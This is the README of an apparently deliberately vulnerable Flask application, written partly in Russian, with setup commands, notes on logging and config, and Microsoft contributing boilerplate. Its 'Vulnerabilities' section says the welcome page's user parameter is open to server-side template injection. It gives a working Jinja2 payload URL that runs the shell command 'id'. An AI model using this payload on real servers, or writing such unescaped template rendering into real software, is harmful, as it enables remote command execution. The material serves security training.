 ```yaml
---
services: app-service\web,app-service
platforms: python
author: cephalin
---
```


```
pip install -r requirements.txt
cd app
flask db upgrade && flask run -h 0.0.0.0 -p 5000
```
Логи сохраняются в app/record.log
Tested on python 3.8.3
# Config
Приложение конфигурируется через файл app.env или через переменные окружения
# Уязвимости
На страницу welcome в параметре user есть ssti. Пример:
http://localhost:5000/welcome?user={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()}}
# Contributing

This project has adopted the [Microsoft Open Source Code of Conduct](https://opensource.microsoft.com/codeofconduct/). For more information see the [Code of Conduct FAQ](https://opensource.microsoft.com/codeofconduct/faq/) or contact [opencode@microsoft.com](mailto:opencode@microsoft.com) with any additional questions or comments.
